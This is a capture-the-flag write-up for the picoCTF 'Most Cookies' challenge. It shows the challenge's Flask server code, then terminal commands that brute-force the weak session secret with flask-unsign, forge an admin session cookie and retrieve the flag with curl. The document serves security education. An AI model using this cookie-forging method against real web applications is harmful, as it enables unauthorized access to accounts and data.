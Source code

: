 ## Descripción

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) [http://mercury.picoctf.net:52134/](http://mercury.picoctf.net:52134/)
## Pistas

1. How secure is a flask cookie?

## Solución

                                                            
`┌──(kali㉿kali)-[~]`
`└─$ wget https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py`     
`--2025-04-02 21:53:06--  https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py`
`Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142`
`Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.`
`HTTP request sent, awaiting response... 200 OK`
`Length: 2021 (2.0K) [application/octet-stream]`
`Saving to: ‘server.py’`

`server.py          100%[================>]   1.97K  --.-KB/s    in 0s`      

`2025-04-02 21:53:06 (57.7 MB/s) - ‘server.py’ saved [2021/2021]`

                                                                            
`┌──(kali㉿kali)-[~]`
`└─$ cat server.py`
`from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session`
`import random`
`app = Flask(__name__)`
`flag_value = open("./flag").read().rstrip()`
`title = "Most Cookies"`
`cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]`
`app.secret_key = random.choice(cookie_names)`

`@app.route("/")`
`def main():`
        `if session.get("very_auth"):`
                `check = session["very_auth"]`
                `if check == "blank":`
                        `return render_template("index.html", title=title)`
                `else:`
                        `return make_response(redirect("/display"))`
        `else:`
                `resp = make_response(redirect("/"))`
                `session["very_auth"] = "blank"`
                `return resp`

`@app.route("/search", methods=["GET", "POST"])`
`def search():`
        `if "name" in request.form and request.form["name"] in cookie_names:`
                `resp = make_response(redirect("/display"))`
                `session["very_auth"] = request.form["name"]`
                `return resp`
        `else:`
                `message = "That doesn't appear to be a valid cookie."`
                `category = "danger"`
                `flash(message, category)`
                `resp = make_response(redirect("/"))`
                `session["very_auth"] = "blank"`
                `return resp`

`@app.route("/reset")`
`def reset():`
        `resp = make_response(redirect("/"))`
        `session.pop("very_auth", None)`
        `return resp`

`@app.route("/display", methods=["GET"])`
`def flag():`
        `if session.get("very_auth"):`
                `check = session["very_auth"]`
                `if check == "admin":`
                        `resp = make_response(render_template("flag.html", value=flag_value, title=title))`
                        `return resp`
                `flash("That is a cookie! Not very special though...", "success")`
                `return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])`
        `else:`
                `resp = make_response(redirect("/"))`
                `session["very_auth"] = "blank"`
                `return resp`

`if __name__ == "__main__":`
        `app.run()`

`┌──(kali㉿kali)-[~]`
`└─$ python3 -m venv ~/.venv`
                                                                            
`┌──(kali㉿kali)-[~]`
`└─$ source ~/.venv/bin/activate`
                                                                            
`┌──(.venv)─(kali㉿kali)-[~]`
`└─$ python3 -m pip install flask-unsign`
`Collecting flask-unsign`
  `Downloading flask_unsign-1.2.1-py3-none-any.whl.metadata (6.9 kB)`
`Collecting flask (from flask-unsign)`
  `Downloading flask-3.1.0-py3-none-any.whl.metadata (2.7 kB)`
`Collecting requests (from flask-unsign)`
  `Downloading requests-2.32.3-py3-none-any.whl.metadata (4.6 kB)`
`Collecting itsdangerous (from flask-unsign)`
  `Downloading itsdangerous-2.2.0-py3-none-any.whl.metadata (1.9 kB)`
`Collecting markupsafe (from flask-unsign)`
  `Downloading MarkupSafe-3.0.2-cp312-cp312-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (4.0 kB)`
`Collecting werkzeug (from flask-unsign)`
  `Downloading werkzeug-3.1.3-py3-none-any.whl.metadata (3.7 kB)`
`Collecting Jinja2>=3.1.2 (from flask->flask-unsign)`
  `Downloading jinja2-3.1.6-py3-none-any.whl.metadata (2.9 kB)`
`Collecting click>=8.1.3 (from flask->flask-unsign)`
  `Downloading click-8.1.8-py3-none-any.whl.metadata (2.3 kB)`
`Collecting blinker>=1.9 (from flask->flask-unsign)`
  `Downloading blinker-1.9.0-py3-none-any.whl.metadata (1.6 kB)`
`Collecting charset-normalizer<4,>=2 (from requests->flask-unsign)`
  `Downloading charset_normalizer-3.4.1-cp312-cp312-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (35 kB)`
`Collecting idna<4,>=2.5 (from requests->flask-unsign)`
  `Downloading idna-3.10-py3-none-any.whl.metadata (10 kB)`
`Collecting urllib3<3,>=1.21.1 (from requests->flask-unsign)`
  `Downloading urllib3-2.3.0-py3-none-any.whl.metadata (6.5 kB)`
`Collecting certifi>=2017.4.17 (from requests->flask-unsign)`
  `Downloading certifi-2025.1.31-py3-none-any.whl.metadata (2.5 kB)`
`Downloading flask_unsign-1.2.1-py3-none-any.whl (14 kB)`
`Downloading flask-3.1.0-py3-none-any.whl (102 kB)`
`Downloading itsdangerous-2.2.0-py3-none-any.whl (16 kB)`
`Downloading werkzeug-3.1.3-py3-none-any.whl (224 kB)`
`Downloading MarkupSafe-3.0.2-cp312-cp312-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (23 kB)`
`Downloading requests-2.32.3-py3-none-any.whl (64 kB)`
`Downloading blinker-1.9.0-py3-none-any.whl (8.5 kB)`
`Downloading certifi-2025.1.31-py3-none-any.whl (166 kB)`
`Downloading charset_normalizer-3.4.1-cp312-cp312-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (145 kB)`
`Downloading click-8.1.8-py3-none-any.whl (98 kB)`
`Downloading idna-3.10-py3-none-any.whl (70 kB)`
`Downloading jinja2-3.1.6-py3-none-any.whl (134 kB)`
`Downloading urllib3-2.3.0-py3-none-any.whl (128 kB)`
`Installing collected packages: urllib3, markupsafe, itsdangerous, idna, click, charset-normalizer, certifi, blinker, werkzeug, requests, Jinja2, flask, flask-unsign`
`Successfully installed Jinja2-3.1.6 blinker-1.9.0 certifi-2025.1.31 charset-normalizer-3.4.1 click-8.1.8 flask-3.1.0 flask-unsign-1.2.1 idna-3.10 itsdangerous-2.2.0 markupsafe-3.0.2 requests-2.32.3 urllib3-2.3.0 werkzeug-3.1.3`
                                                                            
`┌──(.venv)─(kali㉿kali)-[~]`
`└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z-3q8A.DLHPqVbtrawnqyzefUfzaJ94phs" --wordlist cookies.txt`
`[*] Session decodes to: {'very_auth': 'snickerdoodle'}`
`[*] Starting brute-forcer with 8 threads..`
`[+] Found secret key after 28 attemptscadamia`
`'peanut butter'`
                                                                                                      
`┌──(.venv)─(kali㉿kali)-[~]`
`└─$ flask-unsign --sign cookie "{'very_auth': 'admin'}" --secret "peanut butter"`
`usage: flask-unsign [-h] [-d] [-u] [-s] [-l] [-c [COOKIE]] [--secret SECRET] [--salt SALT]`
                    `[--wordlist WORDLIST] [--threads THREADS] [--no-literal-eval] [--server SERVER]`
                    `[--insecure] [-o OUTPUT] [-p PROXY] [--cookie-name COOKIE_NAME] [-U USER_AGENT]`
                    `[-q] [-C CHUNK_SIZE] [-v]`
`flask-unsign: error: unrecognized arguments: cookie {'very_auth': 'admin'}`
                                                                                                      
`┌──(.venv)─(kali㉿kali)-[~]`
`└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"`
`eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-xwEQ.hkm1PcDUvUQYRh0eMhSEUMI7N1s`
                                                                                                      
`┌──(.venv)─(kali㉿kali)-[~]`
`└─$ curl http://mercury.picoctf.net:52134/display`

<title>Redirecting...</title>
`<h1>Redirecting...</h1>`
`<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.`                                                                                                      
`┌──(.venv)─(kali㉿kali)-[~]`
`└─$ curl http://mercury.picoctf.net:52134/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-xwEQ.hkm1PcDUvUQYRh0eMhSEUMI7N1s" | grep pico`
  `% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current`
                                 `Dload  Upload   Total   Spent    Left  Speed`
`100  1194  100  1194    0     0   3769      0 --:--:-- --:--:-- --:--:--  3778`
            `<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_478da04c}</code></p>`

## Notas Adicionales



## Referencias
- 

